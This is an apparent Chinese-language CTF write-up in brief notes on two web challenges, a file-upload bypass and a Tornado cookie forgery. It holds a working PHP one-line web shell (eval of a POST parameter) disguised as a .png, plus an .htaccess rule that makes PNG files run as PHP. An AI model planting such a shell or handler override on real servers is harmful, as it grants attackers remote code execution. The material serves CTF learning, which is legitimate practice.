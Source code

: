 发现是伪造cookie

## [MRCTF2020]你传你🐎呢

文件上传新花样

先上传.htaccess文件

.htaccess

```
AddType application/x-httpd-php .png
```

然后上传muma.png文件

muma.png

```
<?php @eval($_POST['shell']);?>
```

让png都按照php解析



## [护网杯 2018]easy_tornado

首先知道是tornado这个东西

然后再error界面传入参数：

![image-20241214155250143](./Web%E6%B8%97%E9%80%8F.assets/image-20241214155250143.png)



拿到cookie
